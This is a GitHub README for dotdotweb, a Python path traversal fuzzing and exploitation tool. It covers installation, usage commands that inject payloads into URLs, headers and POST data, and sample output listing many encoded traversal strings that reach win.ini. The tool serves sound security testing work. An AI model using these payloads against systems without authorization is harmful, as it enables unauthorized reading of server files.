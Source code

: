 dotdotfarm
==========
Utility for detection & exploitation of Path Traversal vulnerabilities in various network services

dotdotweb - PT tool for web services (HTTP) (Alpha version)

Tools are written in Python with using asyncio requests (aiohttp) with some acceleration techniques, which allows you to make **~3K requests per second**

Features
========
- async client for parallel requesting of target (speedup)
- increasing simultaneous connections in the TCP connector (speedup)
- ability to fetch files' content after succeeding payload
- specifying payload in any part of query (url, headers or POST data)

Installation
============
```bash
git clone https://github.com/treddis/dotdotfarm
cd dotdotfarm
pip install -r requirements.txt
python setup.py install
```

How to use
=====
Passing in GET parameters
----------------------
Passing brute parameters via `?par=val` pairs:
```bash
dotdotweb -o windows -fc 500 http://someserver.com:1280/newpath?testparameter=FUZZ&secondparameter=somevalue
```

Passing via headers
-------------------
Passing brute parameters via `Origin: master=FUZZ` pairs:
```bash
dotdotweb -o linux -fc 500,404 -H "Referer: https://www.google.com/path?q=FUZZ" http://someserver.com:1280/newpath?testparameter=firstvalue&secondparameter=somevalue
```

Passing via POST data
---------------------
Passing brute parameters via POST data parameters
```bash
dotdotweb -o linux -fc 500 -fs 111 -d "key0=val0&key1=val1" http://someserver.com:1280/newpath?testparameter=firstvalue&secondparameter=somevalue
```

Example output
==============
```bash
dotdotweb -o linux "http://localhost:8080/pathtrav?query=FUZZ" 
[*] Started at Sun Jan 22 19:32:46 2023
 ../../../Windows/win.ini                                                                          [Status: 200, Size: 111]
 ../Windows/win.ini                                                                                [Status: 200, Size: 111]
 ..\Windows\win.ini                                                                                [Status: 200, Size: 111]
 ..%2fWindows%2fwin.ini                                                                            [Status: 200, Size: 111]
 ..\..\..\Windows\win.ini                                                                          [Status: 200, Size: 111]
 ..%5c..%5c..%5cWindows%5cwin.ini                                                                  [Status: 200, Size: 111]
 ..%5cWindows%5cwin.ini                                                                            [Status: 200, Size: 111]
 .%2e/Windows/win.ini                                                                              [Status: 200, Size: 111]
 .%2e\Windows\win.ini                                                                              [Status: 200, Size: 111]
 .%2e%2fWindows%2fwin.ini                                                                          [Status: 200, Size: 111]
 .%2e%5cWindows%5cwin.ini                                                                          [Status: 200, Size: 111]
 %5C..%5cWindows%5cwin.ini                                                                         [Status: 200, Size: 111]
 f%5C..%2fWindows%2fwin.ini                                                                        [Status: 200, Size: 111]
 %5C../Windows/win.ini                                                                             [Status: 200, Size: 111]
 %5C..\%5C..\%5C..\Windows\win.ini                                                                 [Status: 200, Size: 111]
 .%2e\.%2e\.%2e\Windows\win.ini                                                                    [Status: 200, Size: 111]
 .%2e%5c.%2e%5c.%2e%5cWindows%5cwin.ini                                                            [Status: 200, Size: 111]
 %5C..%2f%5C..%2f%5C..%2fWindows%2fwin.ini                                                         [Status: 200, Size: 111]
 %5C../%5C../%5C../Windows/win.ini                                                                 [Status: 200, Size: 111]
 %5C..%5c%5C..%5c%5C..%5cWindows%5cwin.ini                                                         [Status: 200, Size: 111]
 %2e./Windows/win.ini                                                                              [Status: 200, Size: 111]
 %2e./%2e./%2e./Windows/win.ini                                                                    [Status: 200, Size: 111]
 %2e.%5cWindows%5cwin.ini                                                                          [Status: 200, Size: 111]
 %2e.%5c%2e.%5c%2e.%5cWindows%5cwin.ini                                                            [Status: 200, Size: 111]
 .%2e%2f.%2e%2f.%2e%2fWindows%2fwin.ini                                                            [Status: 200, Size: 111]
[*] Ended at Sun Jan 22 19:32:58 2023 (11 seconds)
```

Limitations
===========
- Python 3.8+
- High speed of requests rate can trigger WAF of you target
- Unable to pass own dictionary for payload generator
- No way to flexibly forge payloads
- Need of OS specifying
